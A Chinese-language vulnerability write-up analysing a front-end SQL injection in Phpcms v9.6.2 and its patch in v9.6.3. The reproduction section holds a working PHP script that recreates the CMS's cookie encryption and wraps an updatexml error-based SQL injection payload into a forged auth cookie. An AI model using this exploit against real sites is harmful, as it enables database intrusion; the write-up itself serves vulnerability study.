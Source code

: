 ```yaml
---
title: "Phpcms v9.6.2 前台sql注入"
id: zhfly3080
---
```


# Phpcms v9.6.2 前台sql注入

## 一、漏洞简介

## 二、漏洞影响

Phpcms v9.6.2

## 三、复现过程

### 漏洞分析

这个版本的的注入，是建立在任意文件读取漏洞存在的情况下才可利用。通过任意文件读取漏洞获得加解密的 **key** 值，我们可以用这个 **key** 加密我们的 **SQL注入payload** 。由于程序对解密后的数据并未过滤，最终导致漏洞发生。严格上来讲 **v9.6.2** 版本的注入只能在 **windows** 上利用，具体原因在上面的任意文件读取漏洞分析时也说了。下面我们来具体分析一下这个漏洞。

漏洞文件位于 **phpcms/modules/member/classes/foreground.class.php** ，代码如下图。我们可以明显看到下图第33行，程序直接将解密后的数据未经过滤直接带入查询。而待解密数据 **$phpcms_auth** 和解密秘钥 **$auth_key** 均可构造。

![image](../img/4470e458f924f63a9edb1aba41288bed.png)

我们先来看一下待解密数据 **$phpcms_auth** 如何构造。从下图中，可以看出程序将从 **cookie** 中的 **xxx_auth** 字段经过 **sys_auth** 函数解密后，返回给了 **$phpcms_auth** ，而默认情况下使用 **pc_base::load_config('system', 'auth_key')** 作为加解密的 **key** 值。

![image](../img/76d14a61460d100ee99e70e3fab4ce58.png)

而 **pc_base::load_config('system', 'auth_key')** 的值在网站搭建好后，会存储在 **caches/configs/system.php** 中，我们可以通过任意文件读取来获得这个值。

![image](../img/774d51d1c5c6508c6a141226afeb0ed7.png)

现在 **$phpcms_auth** 已经搞定了，我们再来看看 **$auth_key = get_auth_key('login')** 如何构造，跟进 **get_auth_key** 的代码。我们可以看到 **$auth_key** 由 **$prefix、pc_base::load_config('system','auth_key')、ip()** 三个元素决定。前两个都是已知的，而第三个获取用户IP的函数存在IP伪造的问题，也可以是固定的。

![image](../img/9a7401bee414227774c849f6e38b45b5.png)

所以 **get_auth_key('login')** 的值也是我们可以构造的，剩下的事情只要我们将 **payload** 传给加密函数加密两次即可。我们最后再来看一下 **PHPCMS v9.6.3** 中是如何修复这个漏洞的，补丁如下：

![image](../img/4b7050d112e53a70d5c409aaf3219d77.png)

可以明显看到，补丁将解密后获得的 **$userid** 进行了强转。

### 漏洞复现

分析完毕后得到大致流程：

解密操作：get_cookie(‘auth’) 得到$phpcms_auth，get_auth_key(‘login’)得到$auth_key，然后sys_auth($phpcms_auth, ‘DECODE’, $auth_key)。

再通俗些的话：sys_auth方法对cookie中包含auth的参数名对应的密文值，先使用配置文件中的auth_key进行sys_auth得到的值作为第一次解密后的值，然后使用配置文件中的auth_key的值与客户端请求的IP拼接做MD5加密的值做为新的key，第一次解密后的值与新的key最后传入sys_auth进行解密得到最终的明文。

反之加密方法便是：

使用配置文件中的auth_key的值与客户端请求的IP拼接做MD5加密的值做为新的key，使用新的key与明文进行sys_auth得到的值作为第一次加密的密文，然后使用配置文件中的auth_key作为key与第一次加密的密文传入sys_auth得到的值作为最终的密文，也就是cookie字段名称中包含auth的参数对应的值。

**如下是将各个文件中的加密解密方法抓取出来稍作修改，在本地进行payload的加解密操作：**

```
<?php
function sys_auth($string, $operation = 'ENCODE', $key = '', $expiry = 0,$auth_key='7G6idVtMAxhgFVu5vGp1') {
    $ckey_length = 4;
    $key = md5($key != '' ? $key : $auth_key);
    $keya = md5(substr($key, 0, 16));
    $keyb = md5(substr($key, 16, 16));
    $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';
    $cryptkey = $keya.md5($keya.$keyc);
    $key_length = strlen($cryptkey);

```
$string = $operation == 'DECODE' ? base64_decode(strtr(substr($string, $ckey_length), '-_', '+/')) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
$string_length = strlen($string);

$result = '';
$box = range(0, 255);

$rndkey = array();
for($i = 0; $i &lt;= 255; $i++) {
    $rndkey[$i] = ord($cryptkey[$i % $key_length]);
}

for($j = $i = 0; $i &lt; 256; $i++) {
    $j = ($j + $box[$i] + $rndkey[$i]) % 256;
    $tmp = $box[$i];
    $box[$i] = $box[$j];
    $box[$j] = $tmp;
}

for($a = $j = $i = 0; $i &lt; $string_length; $i++) {
    $a = ($a + 1) % 256;
    $j = ($j + $box[$a]) % 256;
    $tmp = $box[$a];
    $box[$a] = $box[$j];
    $box[$j] = $tmp;
    $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
}

if($operation == 'DECODE') {
    if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() &gt; 0) &amp;&amp; substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
        return substr($result, 26);
    } else {

        return '';
    }
} else {
    return $keyc.rtrim(strtr(base64_encode($result), '+/', '-_'), '=');
} 
```

}

function get_auth_key($prefix,$suffix="",$ip=‘127.0.0.1’,$auth_key=‘7G6idVtMAxhgFVu5vGp1’) {

if($prefix==‘login’){

$pc_auth_key = md5($auth_key.$ip);

}else if($prefix==‘email’){

$pc_auth_key = md5($auth_key);

}else{

$pc_auth_key = md5($auth_key.$suffix);

}

$authkey = md5($prefix.$pc_auth_key);

return $authkey;

}

//解密过程

//step 1

$encryption_str = ‘6fc7TB1Y1nIRK5HunMc5HAUw5WkBLLuQGBiOISDhJM4d8N8WHHOvqMaUSyWrZdVdH046oGv_e_Ir6Q157UV-yT5Aksuc_h_4RfwZqsEwDHfQckv4SReOiYFxm083X7Tydcw-nUy8l3nP-ouUGl59sN4’;

$operation1 = ‘DECODE’;

$decryption_step1 = (sys_auth($encryption_str, $operation1));

echo ‘decryption_step1 result:’.$decryption_step1."\n";

//step 2

$decryption_step2 = $decryption_step1;

$auth_key = get_auth_key(‘login’);

echo ‘decryption_step2 result:’.sys_auth($decryption_step2, ‘DECODE’, $auth_key)."\n";

echo ‘-----------------------’."\n" ;

//加密过程

//step 1

$clear_str = “1’or updatexml(1,concat(0x7e,(select user()),0x7e),1)  or '1    f867fef04bd76d95abe01300951ca336”;

$operation2 = ‘ENCODE’;

$encryption_step1 = sys_auth($clear_str, ‘ENCODE’, $auth_key);

echo ‘encryption_step1 result:’.$encryption_step1."\n"; `//step 2

$encryption_step2 = (sys_auth($encryption_step1, $operation2));

echo ‘encryption_step2 result:’.$encryption_step2;` 
```

使用上面的代码可以进行解密和加密，下图中decryption_step2 result的值便是对payload进行解密的最终结果，encryption_step2的值是对payload进行加密的最终结果。

![image](../img/8955855c6d7ad23e696bf0364bafed58.png)

最终利用的现象，cookie中的YDVIB_auth参数名称，前缀是安装时候生成的可能不一样，可以在配置文件中找到对应的值，可以先注册普通用户然后看服务端下发的cookie中字段名称中xxx_auth的参数名称，便是存在漏洞的位置。

![image](../img/4e64a2314fbbdf91cf8a670c462b09d8.png)

## 参考链接

> https://www.freebuf.com/column/158352.html

> https://xz.aliyun.com/t/5731